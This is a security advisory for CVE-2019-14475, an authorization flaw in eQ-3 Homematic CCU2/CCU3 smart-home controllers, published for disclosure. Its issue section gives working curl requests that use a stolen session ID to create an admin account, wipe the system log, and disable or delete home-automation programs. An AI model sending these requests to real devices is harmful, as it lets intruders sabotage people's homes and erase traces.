 ```yaml
---
layout: post
title:  "CVE-2019-14475 eQ-3 Homematic CCU2 and CCU3 use session IDs for authentication but lack authorization checks. An attacker can obtain a session ID from CVE-2019-9583, resulting in the ability to read the service messages, clear the system protocol, create a new but not working user account in the system, modify/delete internal programs, etc. pp."
datetime: 2019-08-01 20:00:00 MEST
last_modified_at: 2019-08-03 22:50:00 MEST
author: 'psytester'
---
```


# Overview

- CVE: CVE-2019-14475
- Author: psytester
- Title: eQ-3 Homematic CCU2 and CCU3 use session IDs for authentication but lack authorization checks. An attacker can obtain a session ID from CVE-2019-9583, resulting in the ability to read the service messages, clear the system protocol, create a new but not working user account in the system, modify/delete internal programs, etc. pp.
- Vulnerability Type: CWE-285 Improper Authorization
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 03.08.2019
- Updated: --
- Vendor: eQ-3 AG	
- Product: Homematic CCU2 and CCU3
- Vendor contacted: 07.05.2019
- Vendor confirmation: N.A.
- Vendor patch: N.A.
- Vendor Reference: N.A.
- Affected Firmware version of CCU2: 2.47.12, 2.47.15 tested, but certainly even before that too
- Affected Firmware version of CCU3: 3.47.10, 3.47.15 tested, but certainly even before that too

# Background

From [vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>


Past [eQ-3 press release](https://www.eq-3.de/aktuelles/newsreader/eq-3-schliesst-sicherheitsluecken-in-der-ccu.html) about taking security updates seriously (in German only):<br>
[...]<br>
eQ-3 ist es wichtig, dass auch solche Lücken geschlossen werden, die für die meisten Installationen keine Rolle spielen.<br> 
[...]<br>
Obwohl nur Nutzer betroffen sind, die gegen Sicherheitshinweise von eQ-3 verstoßen oder seit mehreren Jahren keine Sicherheitsupdates installiert haben, gibt eQ-3 solchen Fällen hohe Priorität und behebt entsprechende Sicherheitslücken schnellstmöglich nach Bekanntwerden in neuen Software-Versionen und Hotfixes.<br>
[...]

# Issue Description

While analyzing the CCU web interface based on given page objects and the WebUI calls behind in browser developer console, an Improper Access Control vulnerability has been identified. With obtaining a SessionID from CVE-2019-9583 it can be exploited in order to start an Denial of Service and Information Disclosure at the WebUI. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.<br>
<br>
First get a SessionID from any page detected by CVE-2019-9583<br>
<br>
Create your own admin level (```level = 8```) account 'AddOwnAdminAccount' - but (un)fortunately this account does not work, because the password is not set. Bad enough that it is partly possible:<br>
```curl -X POST -i 'http://1.2.3.4/esp/system.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "saveUser";integer iUserid = 0;string userName = "AddOwnAdminAccount";string firstName = ""; string lastName = "";string sSysVars = "";integer iPwChanged = 0; string pw = "myPassword";integer iLogin = 0;integer dev = 0;integer level = 8;boolean bEasy = true; string phone = "";string mail = "";]]></prototypejs>'```<br>
<br>
But with such SessionID you can really do other tasks on the system!<br>
<br>
Just some examples...<br>
Clear the system protocol:<br>
```curl -X POST -i 'http://1.2.3.4/esp/system.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "ClearHistoryData";]]></prototypejs>'```<br>
<br>
Read the service messages (device communication errors, etc.):<br>
```curl -X POST -i 'http://IP_der_CCU/esp/system.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "UpdateUI";]]></prototypejs>'```<br>
<br>
manipulation of programs/scripts (Home page > Programs and connections > Programs)<br>
a program/script is identified by an ID, you may just guess the number or you iterate through a range.
This example is manipulating the program/script ```id = "1603"```<br>
deactivate a program/script:<br>
```curl -X POST -i 'http://1.2.3.4/esp/programs.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "SetActive";string id = "1603";string value = "false";]]></prototypejs>'```<br>
<br>
Set a program/script to inoperable:<br>
```curl -X POST -i 'http://1.2.3.4/esp/programs.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "SetOperate";string id = "1603";string value = "false";]]></prototypejs>'```<br>
<br>
Set a program/script to invisible:<br>
```curl -X POST -i 'http://1.2.3.4/esp/programs.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "SetVisible";string id = "1603";string value = "false";]]></prototypejs>'```<br>
<br>
Delete a program/script:<br>
```curl -X POST -i 'http://1.2.3.4/esp/programs.htm?sid=@JLS011UTXB@' --data 'string action = "DeleteProgram";string id = "1603";'```<br>


# CVE

[CVE-2019-14475](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14475)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
